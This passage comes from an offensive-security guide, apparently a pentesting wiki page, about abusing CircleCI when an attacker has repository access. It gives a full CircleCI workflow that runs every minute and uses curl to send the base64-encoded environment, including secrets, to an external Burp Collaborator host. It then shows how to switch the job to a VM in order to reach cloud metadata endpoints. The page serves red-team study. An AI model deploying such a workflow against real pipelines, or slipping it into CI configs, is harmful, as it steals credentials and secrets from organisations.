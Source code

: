 If you **don't have access to the web console** but you have **access to the repo** and you know that CircleCI is used, you can just **modify a workflow** that is **triggered every minute** and that **exfils the secrets to an external address**:

```yaml
version: 2.1

jobs:
  exfil-env:
    docker:
      - image: cimg/base:stable
    steps:
      - checkout
      - run:
          name: "Exfil env"
          command: "curl https://lyn7hzchao276nyvooiekpjn9ef43t.burpcollaborator.net/?a=`env | base64 -w0`"

# I filter by the repo branch where this config.yaml file is located: circleci-project-setup
workflows:
  exfil-env-workflow:
    triggers:
      - schedule:
          cron: "* * * * *"
          filters:
            branches:
              only:
                - circleci-project-setup
    jobs:
      - exfil-env:
          context: Test-Context
```

{% hint style="warning" %}
Just creating a new `.circleci/config.yml` in a repo **isn't enough to trigger a circleci build**. You need to **enable it as a project in the circleci console**.
{% endhint %}

### Escape to Cloud

**CircleCI** gives you the option to run **your builds in their machines or in your own**.\
By default their machines are located in GCP, and you initially won't be able to fid anything relevant. However, if a victim is running the tasks in **their own machines (potentially, in a cloud env)**, you might find a **cloud metadata endpoint with interesting information on it**.

Notice that in the previous examples it was launched everything inside a docker container, but you can also **ask to launch a VM machine** (which may have different cloud permissions):

```yaml
jobs:
  exfil-env:
    #docker:
    #  - image: cimg/base:stable
    machine:
      image: ubuntu-2004:current
```
